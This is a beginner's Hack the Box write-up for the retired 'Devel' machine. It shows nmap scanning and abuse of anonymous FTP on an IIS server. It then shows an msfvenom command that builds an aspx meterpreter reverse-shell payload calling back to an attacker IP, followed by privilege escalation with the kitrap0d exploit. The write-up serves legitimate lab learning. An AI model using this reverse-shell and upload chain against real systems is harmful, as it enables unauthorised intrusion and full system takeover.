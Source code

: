 ```yaml
---
layout: post
title: Devel
subtitle: Hack the Box - Devel
tags: [htb]
---
```


Hello Guys, This is my first HACK-THE-BOX writeup. This write-up is for the retired machine `DEVEL`.

So with out making any delay, we will start with a nmap scan. I always start with a full port scan using below nmap command.

```
nmap -p- --min-rate 5000 10.10.10.5 -oA nmap/fullport
```

![nmap scan](assets/img/htb-devel/fullport.png)

![nmap scan](asantoshka/asantoshka/assets/img/htb-devel/flags.png)
![nmap scan](assets/img/htb-devel/flags.png)
asantoshka/asantoshka/assets/img/htb-devel/flags.png
assets/img/htb-devel/flags.png

Then we will go for another scan with `A` flag and for specific open ports.

```
nmap -p 21,80 -A 10.10.14.3 -oA nmap/portscan
```

![portscan](assets/img/htb-devel/portscan.png)

So we can see here port 21/TCP - FTP and 80/TCP - HTTP are open.

For port 21, we can see that anonymous login is enabled. Let's login to port 21.

```
ftp 10.10.10.5
```

![ftp](assets/img/htb-devel/ftp.png)

Checked the directory aspnet_client but there's nothing much useful.

Now we can check the port 80 and see if we find anything useful. Opened the site in a web browser and found a default IIS7 page. It contains an image, when we check the image name in source page it is welcome.png.

![http](assets/img/htb-devel/http.png)

From the ftp directory listing we saw that there was a png file with name "wecome.png". Let's upload a file to ftp and see if we can access that from port 80. 

![ftptest](assets/img/htb-devel/ftptest.png)

And yes, that was accessible. Now we can load a aspx meterpreter payload and try to get a reverseshell.

Let's generate a payload using msfvenom.
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.14.3 LPORT=9999 -f aspx > shell.aspx 
```

Now the payload can be uploaded to the server using ftp.

![ftpupload](assets/img/htb-devel/ftpupload.png)

Let's open a metasploit listener for the payload. We have to set the options as per the msfvenom command.

![meterpreter](assets/img/htb-devel/meterpreter.png)

Now try to access the `shell.aspx` page and boom. We got the meterpreter session open for us. 

![shell](assets/img/htb-devel/shell.png)

But unfortunately we can't access the user directory. So we have to go for the privilege escalation. For that we can look for the `suggester` in metasploit. We can set the session to our open meterpreter session and hit `run`.

![suggested](assets/img/htb-devel/suggested.png)

We can try the exploits and see if we get the root access. While trying each exploit, I found that `windows/local/ms10_015_kitrap0d` seems to be working fine for me and I got the root access.

![root](assets/img/htb-devel/root.png)

Let's look for the flags.

![flags](assets/img/htb-devel/flags.png)

That's all about this write-up. Thanks for reading.
